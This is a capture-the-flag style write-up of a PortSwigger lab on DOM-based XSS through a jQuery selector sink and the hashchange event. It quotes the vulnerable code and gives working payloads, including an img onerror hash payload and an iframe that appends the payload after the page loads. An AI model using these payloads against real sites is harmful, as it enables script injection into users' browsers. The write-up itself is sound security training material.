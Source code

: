 # [DOM XSS: jQuery Selector Sink Using a Hashchange Event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

Vulnerable code:

```javascript
$(window).on('hashchange', function(){
  var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
  if (post) post.get(0).scrollIntoView();
});
```

The intended functionality is that a hash anchor like `/#Favours` will automatically scroll the blog post with that title into view.

DOM Invader identifies the vulnerability. First, put the canary string into the hash:

![](_/psa-dom-xss-in-jquery-selector-sink-using-a-hashchange-event-20250611-1.png)

That should pop under Sinks:

![](_/psa-dom-xss-in-jquery-selector-sink-using-a-hashchange-event-20250611-2.png)

However, clicking "Exploit" will use this URL, which doesn't work:

```text
/#"'><img%20src%20onerror=alert(1)>')');%20alert(1);%20//
```

This payload _does_ work,

```text
/#<img%20src%20onerror=print()>
```

But it only works if you manually type it in, trigger a hash-change event. So, the exploit needs to first render the page in the victim's browser and subsequently change the hash to the payload. This works:

```html
<iframe src="https://LAB_ID.web-security-academy.net/#" onload="this.src+='<img src onerror=print()>'" hidden="hidden"></iframe>
```

Modern versions of jQuery have patched this vector by disallowing HTML in selectors when the input begins with `#`.